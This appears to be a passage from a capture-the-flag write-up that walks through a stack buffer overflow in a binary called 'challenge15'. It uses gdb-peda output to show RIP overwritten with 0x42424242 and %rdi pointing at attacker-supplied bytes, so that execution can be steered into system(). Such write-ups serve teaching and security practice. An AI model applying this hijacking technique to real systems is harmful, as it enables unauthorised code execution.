 ```
Thread 2.1 "challenge15" hit Breakpoint 1, 0x0000000000400a02 in handleData ()
```

The next value on the stack is 0x42424242, which will be our new RIP.
We will execute the syscall "system()". The call convention for syscalls defines that
the first argument for the system is stored in `%rdi`. `system()` only uses one argument:

```
NAME
       system - execute a shell command

SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);
```

So, we are in the process of executing `system()` - where does `%rdi` point to?
We see it already above in the peda output, but lets check it again:
```
gdb-peda$ x/40g $rdi
0x7fffffffdff6: 0x4141414141414141      0x4141414141414141
0x7fffffffe006: 0x4141414141414141      0x4141414141414141
0x7fffffffe016: 0x4141414141414141      0x4141414141414141
0x7fffffffe026: 0x4141414141414141      0x4141414141414141
0x7fffffffe036: 0x4141414141414141      0x4141414141414141
0x7fffffffe046: 0x4141414141414141      0x4141414141414141
0x7fffffffe056: 0x4141414141414141      0x4141414141414141
0x7fffffffe066: 0x4141414141414141      0x4141414141414141
0x7fffffffe076: 0x4141414141414141      0x4141414141414141
0x7fffffffe086: 0x4141414141414141      0x4141414141414141
0x7fffffffe096: 0x4141414141414141      0x4141414141414141
0x7fffffffe0a6: 0x4141414141414141      0x4141414141414141
0x7fffffffe0b6: 0x4141414141414141      0x4141414141414141
0x7fffffffe0c6: 0x4141414141414141      0x4141414141414141
0x7fffffffe0d6: 0x4141414141414141      0x4141414141414141
0x7fffffffe0e6: 0x4141414141414141      0x4141414141414141
0x7fffffffe0f6: 0x0000424242424141      0x0000000000000000
0x7fffffffe106: 0x0000000000000000      0x0000000000000000
```

It accidently points exactly to our provided shellcode. How convenient!
